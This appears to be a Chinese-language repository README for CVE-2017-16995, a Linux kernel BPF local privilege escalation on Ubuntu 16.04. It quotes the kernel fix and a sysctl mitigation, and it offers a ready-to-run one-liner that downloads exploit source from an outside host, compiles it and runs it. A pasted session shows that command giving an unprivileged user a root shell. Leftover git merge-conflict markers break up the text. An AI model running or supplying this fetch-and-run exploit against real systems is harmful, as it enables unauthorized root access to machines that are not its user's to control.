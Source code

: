 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
#####  Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）不正确地执行了符号扩展check_alu_op()。本地攻击者可以使用它在系统上进行提权,获取root权限。

```
bpf: fix incorrect sign extension in check_alu_op()
Distinguish between
BPF_ALU64|BPF_MOV|BPF_K (load 32-bit immediate, sign-extended to 64-bit)
and BPF_ALU|BPF_MOV|BPF_K (load 32-bit immediate, zero-padded to 64-bit);
only perform sign extension in the first case.

Starting with v4.14, this is exploitable by unprivileged users as long as
the unprivileged_bpf_disabled sysctl isn't set.

Debian assigned CVE-2017-16995 for this issue.

v3:
 - add CVE number (Ben Hutchings)

Fixes: 484611357c19 ("bpf: allow access into map value arrays")
Signed-off-by: Jann Horn <jannh@google.com>
Acked-by: Edward Cree <ecree@solarflare.com>
Signed-off-by: Alexei Starovoitov <ast@kernel.org>
Signed-off-by: Daniel Borkmann <daniel@iogearbox.net>

```

#### 前提条件：unprivileged_bpf_disabled sysctl未设置
#### CVE 编号： CVE-2017-16995
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小
<<<<<<< HEAD

=======
>>>>>>> 6cc487b7f936344fa2f39e4e8318caf6dc06f716
### 漏洞测试环境
```

➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```
<<<<<<< HEAD
=======
非特权用户可以使用此漏洞在系统上升级其权限。
>>>>>>> 6cc487b7f936344fa2f39e4e8318caf6dc06f716

设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级
___________________________________________________________________________________________________________________________

root@Ubuntu# echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

______________________________________________________________________________________________________________________________


```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0
```

<<<<<<< HEAD
=======

>>>>>>> 6cc487b7f936344fa2f39e4e8318caf6dc06f716
### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



